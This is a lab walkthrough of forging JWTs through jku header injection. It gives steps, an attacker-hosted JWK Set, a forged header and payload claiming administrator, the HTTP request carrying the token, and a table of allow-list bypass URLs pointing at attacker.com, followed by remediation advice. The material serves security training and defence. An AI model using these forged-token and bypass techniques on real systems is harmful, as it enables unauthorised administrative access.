





# JWT authentication bypass via jku header injection

The `jku` (JWK Set URL) header tells the server **where to fetch** the verification key from, instead of embedding it directly (that's `jwk`). The server makes an outbound HTTP request to the URL, retrieves a JWK Set, and picks the key matching the token's `kid`. If the server doesn't restrict which URLs it's willing to trust, an attacker just hosts their own key set and points `jku` at it.

!!! note "BASICS — the JWK Set"
    A JWK Set is a JSON object `{ "keys": [ {...}, {...} ] }` holding one or more public keys, each tagged with its own `kid`. Real-world identity providers publish these at well-known paths like `/.well-known/jwks.json` so relying parties can fetch current signing keys. `jku` abuses that same legitimate mechanism by substituting the attacker's own URL.

## 1. Capture a token; confirm /admin is restricted

Log in as `wiener`.



`GET /admin` returns `401 Unauthorized` for this session.



## 2. Generate an RSA key pair and host the public half

In Burp's JWT Editor, generate a **New RSA Key**, then right-click it and choose **Copy as JWK** to get the public-key JSON. Wrap it in a JWK Set (`{"keys": [...]}`) and paste it into the exploit server's file store, serving it at a path such as `/exploit`.



```json
{ "keys": [ { "kty": "RSA", "e": "AQAB", "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7", "n": "yy1wpYmffgXBxhAUJzHHocCuJoIwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw" } ] }
```



## 3. Point jku at the hosted key set and forge the claim

Edit the captured token's header to reference the attacker-hosted set, matching `kid` to the key just uploaded, and set the payload's `sub` to `administrator`. Sign with the RSA private key generated in step 2.

```json
// Header
{
  "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
  "alg": "RS256",
  "jku": "https://exploit-<id>.exploit-server.net/exploit"
}

// Payload
{ "iss": "portswigger", "exp": 1772794251, "sub": "administrator" }
```



## 4. Send the forged token

Replace the session cookie and request `/admin`. The server fetches the attacker's JWK Set over HTTP, finds the matching `kid`, verifies against the attacker's public key, and accepts the forged signature.

```http
GET /admin HTTP/2
Cookie: session=eyJraWQiOiI4OTNkOGYwYi0wNjFmLTQyYzItYTRhYS01MDU2ZTEyYjhhZTciLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vZXhwbG9pdC0uLi4ifQ...
```

## Bypassing a URL allow-list

Stricter servers restrict `jku` to trusted domains. Parsing discrepancies between the server's filter and its HTTP client can still allow a bypass:

| Bypass technique | Example |
|---|---|
| `@` in URL | `https://trusted.com@attacker.com` |
| Subdomain abuse | `https://trusted.com.attacker.com` |
| URL fragment | `https://attacker.com#trusted.com` |
| SSRF via a trusted server | Route the fetch through a request the app already trusts |

## Why it works

Trusting a `jku` value without an allow-list means the server will fetch verification material from **anywhere the attacker names**. Since the attacker also holds the private key for whatever they host, the entire chain — fetch key, verify signature, accept claim — is one the attacker fully controls end to end.

## Remediation

- Maintain a strict server-side allow-list of trusted `jku` hosts/paths, validated with a robust URL parser (not substring matching).
- Never let an application fetch and trust key material from a URL supplied in untrusted input.
- Where possible, pin keys entirely server-side and ignore `jku` from incoming tokens altogether.
